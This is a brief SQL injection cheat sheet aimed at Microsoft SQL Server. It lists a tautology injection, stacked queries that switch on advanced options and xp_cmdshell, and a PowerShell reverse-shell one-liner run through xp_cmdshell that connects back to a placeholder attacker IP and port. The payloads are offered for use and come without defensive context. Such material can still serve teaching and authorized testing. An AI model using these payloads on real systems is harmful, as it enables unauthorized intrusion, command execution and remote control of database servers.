 # First
```
' OR 1=1;
```

# MSSQL
enabled show advance options
```
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; --
```

enabled xp_cmdshell
```
'; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

one liner reverseshell
```
' EXEC xp_cmdshell 'powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''ATTACKER IP'',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'-- -
```